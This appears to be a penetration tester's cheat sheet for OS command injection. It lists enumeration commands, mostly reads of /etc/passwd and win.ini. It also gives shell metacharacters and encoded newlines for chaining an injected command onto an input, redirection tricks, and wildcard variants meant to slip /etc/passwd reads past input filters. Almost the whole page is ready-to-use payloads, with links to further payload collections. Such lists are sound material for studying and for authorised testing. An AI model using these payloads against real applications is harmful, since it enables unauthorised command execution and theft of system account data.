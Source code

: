 # Command Injection List

Search Tag(s): #helpers #command-injection

## Enumeration Command Injection

### General

```
whoami
pwd
```

### Linux

- Enumerate user privileges

```
id
```

- Enumerate users

```
cat /etc/passwd
strings /etc/passwd
while read line; do echo $line; done < /etc/passwd
while IFS= read -r line;do echo "$line"; done < /etc/passwd
while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd
```

### Windows

```
type C:\windows\win.ini
```

## Chaining Commands

```
;
$;
a;
a);
&&
&
||
|
a|
a)|
#
'
"
!
`<command>`
$(<command>)
$(`<command>`)
${<command>}
\n
0x0A
0x0a
%0A
%0a
\r
\r\n
```

## I/O Redirection

### Input

#### Linux

```
cat < /path/to/file.txt
strings < /path/to/file.txt
```

### Output

#### Linux

```
ls > /path/to/file.txt
ls >> /path/to/file.txt
$(ls) > /path/to/file.txt
$(ls) >> /path/to/file.txt
```

## Filter Evasion

### Linux

```
/bin/cat /e??/p??s??
/bin/cat /e*/pa*wd
/bin/cat /et*/pa*wd
/bin/cat /et*/pa**wd
cat$u /etc$u/passwd
```

---
## References

- [PayloadsAllTheThings: Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- [OS Command Injection tutorial – Part #1 (Basics and Filter Evasion)](https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/)

- [SecJuice: Bypass Strict Input Validation With Remove Prefix and Suffix Patterns](https://www.secjuice.com/bypass-strict-input-validation-with-remove-suffix-and-prefix-pattern/)